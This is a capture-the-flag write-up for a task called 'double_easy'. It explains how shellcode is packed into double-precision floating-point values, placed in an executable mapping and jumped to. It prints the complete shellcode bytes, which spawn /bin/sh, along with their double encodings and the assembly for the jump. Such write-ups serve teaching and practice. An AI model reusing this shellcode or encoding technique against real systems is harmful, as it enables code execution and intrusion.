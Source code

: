 # double_easy
This is simple but yet in my opinion fun enough task.
At the begging called nmap. It creates rwxp mapping. User input getting placed at 0x7ffff7ff6000. 
![](/images/random_tasks/double_easy/01.png)

![](/images/random_tasks/double_easy/02.png)

At the end most registers getting xord and we jmp into rax .

![](/images/random_tasks/double_easy/03.png)

The goal here is to combine double values into a shellcode.

When jmp rax happens rax = 0x7ffff7ff6800

Double value with maximum exponent is placed at that address. So we need to jmp from there to the begging of our shellcode ie. to 0x7ffff7ff6000.

0:  48 2d 00 08 00 00       sub    rax,0x800
6:  ff e0                               jmp    rax

I used http://www.binaryconvert.com/convert_double.html to convert hex values to doubles.

482d00080000ffe0 -> e0ff000008002d48 = -1.70246984590177777930935029465E159

So I tried it but in gdb I noticed that value at 0x7ffff7ff6800 was changed to e0cf000008002d48. 

0xe0f - 0x3 = 0xe0c => we should place 0xe0f + 0x3 = 0xe12 => e12f000008002d48

e12f000008002d48 = -1.36197587672142222344748023572E160

This worked.

![](/images/random_tasks/double_easy/04.png)

I used following shellcode:
![](/images/random_tasks/double_easy/05.png)

Setting rsp to 0x7ffff7ff6600 at start there.

sc = "\x48\x05\x00\x06\x00\x00\x48\x89\xC4\x31\xC0\x48\xBB\xD1\x9D\x96\x91\xD0\x8C\x97\xFF\x48\xF7\xDB\x53\x54\x5F\x99\x52\x57\x54\x5E\xB0\x3B\x0F\x05"

9090909048050006  -> 0600054890909090 = 8.82579544590269863191205692881E-280
00004889C431C048  -> 48C031C489480000 = 2.82146330475893377060216454638E42
BBD19D9691D08C97  -> 978CD091969DD1BB = -3.08380742074420402109506446037E-195
FF48F7DB53545F99  -> 995F5453DBF748FF = -1.80009256564271863951964737918E-186
5257545EB03B0F05  -> 050F3BB05E545752 = 2.62548796026479771567446783154E-284

![](/images/random_tasks/double_easy/06.png)